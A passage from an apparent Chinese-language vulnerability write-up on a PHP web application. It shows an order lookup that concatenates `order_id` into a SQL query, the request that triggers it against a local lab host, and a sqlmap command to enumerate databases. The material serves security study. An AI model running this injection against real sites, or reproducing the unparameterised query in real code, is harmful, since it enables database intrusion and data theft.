 ```php
switch ($act) {
......
case 'dohuishou': 	 
    	$order_id = trim( $_REQUEST['order_id'] );    
    	$order = $db2->getRow('select * from xy_order where order_id="'.$order_id.'"');
```

于是尝试触发，注意 `mobile_user` 这个目录是配合手机端实现的，大概率是根据浏览器的 UA 头判断的，先姑且找个手机端的 UA 头：

```
Mozilla/5.0 (Android 11; Mobile; rv:83.0) Gecko/83.0 Firefox/83.0
```

这个需要普通用户登录后才能触发，于是先注册一个用户，再抓包尝试，触发 

```http
http://192.168.0.101:8066/user.php?mod=back&act=dohuishou&order_id=1
```

<img src=".\图片\Snipaste_2023-05-20_17-58-48.png" alt="Snipaste_2023-05-20_17-58-48" style="zoom:80%;" />

接着把数据包放入 sql_inject.txt 里用 sqlmap 跑

```bash
python sqlmap.py -r sql_inject.txt --dbms mysql --dbs
```
